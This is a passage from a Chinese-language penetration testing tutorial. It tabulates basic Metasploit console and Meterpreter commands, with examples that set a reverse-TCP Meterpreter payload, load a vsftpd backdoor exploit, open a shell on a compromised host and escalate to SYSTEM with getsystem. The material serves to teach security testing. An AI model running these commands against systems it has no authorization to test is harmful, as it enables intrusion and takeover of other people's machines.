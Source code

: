 | **命令** | **用法** | **示例** |
| --- | --- | --- |
| `use [Auxiliary/Exploit/Payload/Encoder]` | 选择要开始使用的特定模块 | `msf>use exploit/unix/ftp/vsftpd_234_backdoor msf>use auxiliary/scanner/portscan/tcp` |
| `show [exploits/payloads/encoder/auxiliary/options]` | 查看特定类型的可用模块列表 | `msf>show payloads msf> show options` |
| `set [options/payload]` | 为特定对象设置值 | `msf>set payload windows/meterpreter/reverse_tcp msf>set LHOST 192.168.10.118 msf> set RHOST 192.168.10.112 msf> set LPORT 4444 msf> set RPORT 8080` |
| `setg [options/payload]` | 全局设置特定对象的值，因此在模块切换时值不会改变 | `msf>setg RHOST 192.168.10.112` |
| `run` | 在设置所有必需的选项后启动辅助模块 | `msf>run` |
| `exploit` | 启动一个利用 | `msf>exploit` |
| `back` | 取消选择模块并返回 | `msf(ms08_067_netapi)>back msf>` |
| `Info` | 列出与特定漏洞/模块/辅助相关的信息 | `msf>info exploit/windows/smb/ms08_067_netapi msf(ms08_067_netapi)>info` |
| `Search` | 查找特定模块 | `msf>search hfs` |
| `check` | 检查特定目标是否容易受到攻击 | `msf>check` |
| `Sessions` | 列出可用的会话 | `msf>sessions [session number]` |

让我们来看看基本的 Meterpreter 命令：

| **Meterpreter 命令** | **用法** | **示例** |
| --- | --- | --- |
| `sysinfo` | 列出受损主机的系统信息 | `meterpreter>sysinfo` |
| `ifconfig` | 列出受损主机上的网络接口 | `meterpreter>ifconfig meterpreter>ipconfig (Windows)` |
| `arp` | 列出连接到目标的主机的 IP 和 MAC 地址 | `meterpreter>arp` |
| `background` | 将活动会话发送到后台 | `meterpreter>background` |
| `shell` | 在目标上放置一个 cmd shell | `meterpreter>shell` |
| `getuid` | 获取当前用户的详细信息 | `meterpreter>getuid` |
| `getsystem` | 提升权限并获得 SYSTEM 访问权限 | `meterpreter>getsystem` |
| `getpid` | 获取 meterpreter 访问的进程 ID | `meterpreter>getpid` |
| `ps` | 列出目标上运行的所有进程 | `meterpreter>ps` |

既然我们现在回顾了 Metasploit 命令的基础知识，让我们在下一节看看使用 Metasploit 相对于传统工具和脚本的好处。

如果您是第一次使用 Metasploit，请参考[`www.offensive-security.com/metasploit-unleashed/msfconsole-commands/`](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)获取有关基本命令的更多信息。

# 使用 Metasploit 进行渗透测试的好处

在我们深入研究一个未知网络之前，我们必须知道为什么我们更喜欢 Metasploit 而不是手动利用技术。这是因为它给人一种黑客般的终端外观，还是有其他原因？与传统的手动技术相比，Metasploit 是一个更可取的选择，因为它具有以下几个方面的特点。

# 开源
